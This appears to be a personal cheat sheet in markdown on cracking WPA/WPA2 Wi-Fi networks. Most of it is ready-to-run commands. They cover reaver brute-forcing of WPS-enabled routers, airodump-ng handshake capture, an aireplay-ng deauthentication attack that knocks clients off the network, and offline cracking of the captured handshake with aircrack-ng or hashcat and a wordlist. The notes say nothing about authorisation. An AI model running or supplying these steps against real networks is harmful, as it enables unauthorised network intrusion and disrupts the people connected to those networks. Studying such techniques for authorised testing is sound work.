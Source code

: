 ```yaml
---
title: WPA - WPA2 Cracking
date: 2024-01-28 14:15:56 -0600
updated: 2024-01-28 14:15:56 -0600
---
```


### Crack WPS Enabled Networks

````bash
wash --interface <interface>
````

**Output**  
`Lck` : Shows if WPS is locked (Can be locked after continuous failed attempts)  
`dBm` : Signal Strength

````bash
aireplay-ng --fakeauth 30 -a <router-bssid> -h <myadapter-bssid> <interface>
reaver --bssid <router-bssid> --channel <channel> --interface <interface> -vvv --no-associate
````

This attack will fail if PBA is enabled. The only way to confirm is by performing the attack

`--no-associate` flag prevents reaver from connecting to the network if the crack was successful (If not set reaver is found to fail in most of the cases)

### Crack WPS Disabled Networks

````bash
airodump-ng <interface>
airodump-ng --bssid <router-bssid> --channel <channel> --write <filename> <interface>
aircrack-ng <filename> -w <wordlist>
````

Handshake packet is only transferred when an new device connected to the network.
We can force an device to reconnect using an Deauth Attack

````bash
aireplay-ng --deauth <very-small-number> -a <router-bssid> -c <target-bssid> <interface>
````

If we open the .cap file in Wireshark we can see the "EAPOL (Extensible Authentication Protocol over LAN)" Packet  
i.e. The 4-Way Handshake performed by WPA  
For cracking use of `rockyou.txt` wordlist  
The cracking step can be performed using Hashcat more much faster bruteforcing using GPU

````bash
/usr/share/hashcat-utils/cap2hccapx.bin <cap-file> <filename>.hccapx
hashcat -m 2500 -a 3 -o <output-file> <handshake-file> <wordlist>
````
